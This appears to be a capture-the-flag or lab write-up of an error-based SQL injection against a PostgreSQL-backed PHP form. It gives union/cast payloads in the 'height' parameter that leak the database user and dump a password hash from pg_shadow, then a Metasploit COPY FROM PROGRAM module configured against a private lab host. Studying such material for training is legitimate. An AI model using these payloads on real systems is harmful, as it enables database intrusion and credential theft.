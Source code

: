 6. Follow these steps. 
```
HINTS:
1) Test for SQL injection by adding a single quote (') to each input parameter and check for errors.
2) Identify the vulnerable parameter and use the ORDER BY statement to determine the number of columns.
3) For error-based SQL injection, use the CAST() function to convert data into an incompatible type, triggering an error message with the data.

Alternatively, look for known vulnerabilities specific to the database system in use, like CVE-2019-9193 for PostgreSQL.


1. Tried sql injection in different pages including class.php. Then, capture request for send. 

2. Manually check out each field with adding ' sign one by one. Hieght field give vulnerable like outcome. 
<br />
<b>Warning</b>:  pg_query(): Query failed: ERROR:  syntax error at or near &quot;1&quot;
LINE 1: select * from users where email like '%'1%'
^ in <b>/var/www/html/class.php</b> on line <b>423</b><br />

3. Found out there are 6 column using '' ORDER BY 7-- //'

4. Check out posssible data using following parameter. (https://github.com/soc-otter/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-error-based)

weight=1&height='+union+select+null,cast(current_user+as+int),null,null,null,null+--&age=24&gender=Male&email=sujanp788%40gmail.com

5. Gives the password hash. 

weight=1&height='+union+select+null,cast(passwd+as+int),null,null,null,null from pg_shadow+--&age=24&gender=Male&email=sujanp788%40gmail.com
  

version(): (Debian 13.7-0+deb11u1)
current_user: rubben
current_database(): glovedb
Password hash: md5ae8c67affdb169a42c9631c02fc67ede

6. Tried using msfconsle (metasploit) but could not exploit it. Handler - exploit(multi/postgres/postgres_copy_from_program_cmd_exec) 
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show options
Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

   Name           Current Setting                  Required  Description

   ----           ---------------                  --------  -----------

   DATABASE       glovedb                          yes   The database to authenticate against

   DUMP_TABLE_OUTPUT  false                            no    select payload command output from table (For Debugging)

   PASSWORD       md5ae8c67affdb169a42c9631c02fc67ede  no    The password for the specified username. Leave blank for a random password.

   RHOSTS         192.168.196.49                   yes   The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html

   RPORT          5432                             yes   The target port (TCP)

```